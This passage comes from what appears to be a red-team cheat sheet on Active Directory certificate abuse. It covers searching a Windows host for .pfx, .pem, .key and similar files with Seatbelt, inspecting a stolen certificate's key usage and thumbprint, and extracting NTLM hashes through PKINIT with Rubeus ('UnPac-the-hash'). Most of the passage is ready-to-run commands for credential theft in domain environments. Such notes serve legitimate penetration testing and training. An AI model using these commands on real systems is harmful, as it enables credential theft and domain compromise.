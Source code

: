 ### Finding certificate files - THEFT4
- To search for possibly certificate and key related files with Seatbelt :
```powershell
./Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
./Seatbelt.exe InterestingFiles
```

Other interesting extensions :
* `.key` : Contains just the private key
* `.crt/.cer` : Contains just the certificate
* .`csr` : Certificate signing request file. This does not contain certificates or keys
* `.jks/.keystore/.keys` : Java Keystore. May contain certs + private keys used by Java applications

To find what the certificate can do :

```powershell
$CertPath = ".\cert.pfx"
$CertPass = "Password123!"
$Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
$Cert.EnhancedKeyUsageList

#Or with a pfx
certutil.exe -dump -v cert.pfx
```

Verify if a found certificate is the CA certificate (you are really lucky) :

```powershell
#Show certificate thumbprint
$CertPath = ".\cert.pfx"
$CertPass = "Password123!"
$Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
$Cert.Thumbprint

#Verify CA thumbprint
certutil.exe find /quiet
```

If they match, it's good.

### NTLM Credential Theft via PKINIT – THEFT5

When a TGT is requested with PKINIT, the **LM:NT hash** is added in the structure `PAC_CREDENTIAL_INFO` for futur use if Kerberos is not supported, and the PAC is ciphered with the krbtgt key. When a TGS is requested from the TGT, the same structure is added, but ciphered with the session key.

The structure can be unciphered if a TGS-REQ U2U is realised. It's called **UnPac-the-hash**.

#### Windows

```powershell
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```
